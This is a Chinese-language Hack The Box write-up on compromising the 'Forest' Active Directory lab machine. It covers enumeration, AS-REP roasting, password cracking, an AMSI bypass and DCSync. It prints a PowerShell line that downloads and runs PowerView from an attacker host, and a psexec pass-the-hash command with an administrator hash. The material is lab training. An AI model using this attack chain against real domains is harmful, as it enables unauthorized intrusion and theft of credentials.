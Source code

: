```yaml
---
title: Forest
date: 2021-12-24 13:52:39
tags: Hack The box
categories: 内网
---
```


## 靶机信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/2913cb4eedb44306869932340084824e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 信息收集

```bash
nmap -sV -sS -Pn -A -p1-65535 10.10.10.161
```

```bash
Nmap scan report for 10.10.10.161
Host is up (0.32s latency).
Not shown: 65511 closed ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-10-21 11:03:55Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  unknown
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49706/tcp open  unknown
49931/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/21%OT=53%CT=1%CU=36900%PV=Y%DS=2%DC=T%G=Y%TM=617148
OS:13%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=103%TI=I%CI=I%II=I%SS=S%TS
OS:=A)SEQ(SP=104%GCD=1%ISR=104%TI=I%CI=I%TS=A)OPS(O1=M54DNW8ST11%O2=M54DNW8
OS:ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W1=20
OS:00%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M5
OS:4DNW8NNS%CC=Y%Q=)ECN(R=N)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%D
OS:F=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O
OS:=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
OS:T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%U
OS:N=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m49s, deviation: 4h02m32s, median: 6m47s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2021-10-21T04:05:16-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-10-21T11:05:15
|_  start_date: 2021-10-21T07:03:53

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   321.85 ms 10.10.14.1
2   321.83 ms 10.10.10.161

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3716.43 seconds
```

<!--more-->

我们发现可以进行匿名登录，我们尝试匿名登录SMB服务，看看有哪些有价值的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/e568f2f0f0ef419da569481703bc97f1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
答案是没有，没有什么共享信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/9315d9655d274be9baf1173d824bbf38.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

上面信息收集时发现了ldap服务，那我们尝试使用ldapsearch工具对`namingcontexts`字段进行发掘
![在这里插入图片描述](https://img-blog.csdnimg.cn/5159dbdc249c4274ba73c56d802ba67c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试更深入地挖掘DN信息，并尝试获取域中的用户列表
![在这里插入图片描述](https://img-blog.csdnimg.cn/412eb99806c84827a8d4924b17aab912.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们还可以使用`enum4linux`获取用户
![在这里插入图片描述](https://img-blog.csdnimg.cn/295e9874f8a94b21b77a12fd68e7de09.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将搜集的信息保存为一个`anon_ldap.txt`文件，过滤出`svc-alfresco`用户的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/323186c2631f445e8f56396ebc761eef.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们拿到账号和用户名后，我们得检查一下是否启用了预认证，这里解释一下什么是预认证

> **在请求 TGT（票证授予票证）时，第一步，请求方（用户）使用自己的 NTLM 哈希加密时间戳，并将其发送到 KDC（密钥分发中心），即域控制器。现在，如果 KDC 使用请求用户的 NTLM 哈希成功解密时间戳，KDC 将知道请求用户是有效用户。
> 可以禁用此检查（这不是默认情况）。在这种情况下，KDC 不会验证请求 TGT 的用户是否有效，而是将 TGT 发送回请求者。
> 该 TGT 包含使用请求用户的 NTLM 哈希加密的部分数据，这意味着我们可以将哈希脱机并尝试破解它。**

那我们可以使用`impacket`包中的`GetNPUsers.py`这个脚本去请求TGT，直接获取易受攻击的用户名及对应的哈希值
![在这里插入图片描述](https://img-blog.csdnimg.cn/5284eb6938a448ed9fc2c450536c9ebc.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用`john`来破解这个hash值，破解的明文值为`s3rvice`
![在这里插入图片描述](https://img-blog.csdnimg.cn/171d16fb086e4306aed46bcfde8464e3.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们也可以用hashcat来破解

```bash
hashcat -m 18200 -a 0 -w 3 forest.hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ac55b719cfc140b1ada3ab3f1ec23de1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
因为上边我们扫描到主机开放了5985端口，那证明主机开放了WinRM服务

```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/391c73ad0f65465dbec84f80162fe866.png)
## 提权
我们使用Bloodhound这个工具查询是否有潜在的提权路径，首先我们得先把客户端`SharpHound.exe`上传到目标主机上，并运行它
![在这里插入图片描述](https://img-blog.csdnimg.cn/df95f275e38340aba9d52b2aa90c838e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/eaa70b145a0143d790b4d8c629a36d7f.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
为了方便我们传输，我们在本机上搭建一个SMB服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/a6dcecf002764ceb89b526cfc469f895.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们将压缩包复制到本机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/9c2108c5892d4762af178e042896411e.png)
在攻击机上启动bloodhound，并将压缩包拖进bloodhound中
![在这里插入图片描述](https://img-blog.csdnimg.cn/0e1aedb210f74238ba29dd65d3cfb738.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后点击最后一个选项，查看可以进行哈希传递的用户
![在这里插入图片描述](https://img-blog.csdnimg.cn/7d5109e17fd740c08689be66a2ce0c35.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后再点击这个选项
![在这里插入图片描述](https://img-blog.csdnimg.cn/e417b9a4c91442eeb7e5f52dc99ec7be.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/6899426da41d42139be684f6f99e7772.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
可以看到`svc-alfresco`这个用户是属于`service account`这个组的成员，同时它也是`Privileged IT Accounts`的成员，它也是`account operators`的成员。它允许该组的成员创建和修改用户并将其添加到不受保护的组
![在这里插入图片描述](https://img-blog.csdnimg.cn/e2cdb6b465b74640a64b7ea297939ce3.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们现在点击`Shortest Paths to High Value Targets`，查看去往高权限目标的路径。该用户具有`GenericAll`的权限和`Exchange Windows`权限组。在`Exchange Windows`权限组具有`WriteDacl`在域的权限。该`WriteDacl`权限使用户能够向对象添加`DACL`（自由访问控制列表）。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c6d80a75b47946b2bb2b74041117d941.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
**那就意味着：**

 **1. 我们可以将用户添加到Exchange Windows 权限组。
 2. 然后，由于 Exchange 组有WriteDacl权限，我们可以将DCSync权限授予我们创建的用户。**

>  **DCsync是几个权限的集合体，是域渗透中经常会用到的技术，如果普通用户想具有DCsync权限，可以给对象添加以下三条ACE：
>  DS-Replication-Get-Changes，对应GUID为：1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
>  DS-Replication-Get-Changes-All，对应GUID为：1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
>  DS-Replication-Get-Changes-In-Filtered-Set，对应GUID为：89e95b76-444d-4c62-991a-0facbeda640c**

## DCSync
首先我们先将用户添加到域中
![在这里插入图片描述](https://img-blog.csdnimg.cn/412def70d225418188f892346169b474.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们将用户添加到`Exchange Windows`权限组
![在这里插入图片描述](https://img-blog.csdnimg.cn/ead54544e07d4f67bcb1f4d5c4c973d0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们看看菜单，我们选择`Bypass-4MSI`，`Bypass-4MSI`命令用于在导入脚本之前规避防御者。接下来，我们可以使用`Add-ObjectACL`和`john`的凭证，并给他`DCSync`权限。
![在这里插入图片描述](https://img-blog.csdnimg.cn/84b58436b0f54790bfdc7e1e5823e29a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后输入以下的powershell的代码

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11/PowerView.ps1')
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Secpassword = ConvertTo-SecureString 'password1234' -asplaintext -force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\pyh',$Secpassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pyh -Rights DCSync
```
开启一个小型服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/37f75053912d4977b8ec82cc263da07f.png)
执行完成后，我们使用`secretdumps.py`脚本获取用户名对应的哈希值。这里我们获取到了管理员的哈希值
![在这里插入图片描述](https://img-blog.csdnimg.cn/16f9219409ec4fa78100ba391a0cf942.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们只需要使用`psexec.py`脚本来进行哈希传递攻击，获取到超级管理员权限

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/87f2253887984b2f8852806cd45909bb.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
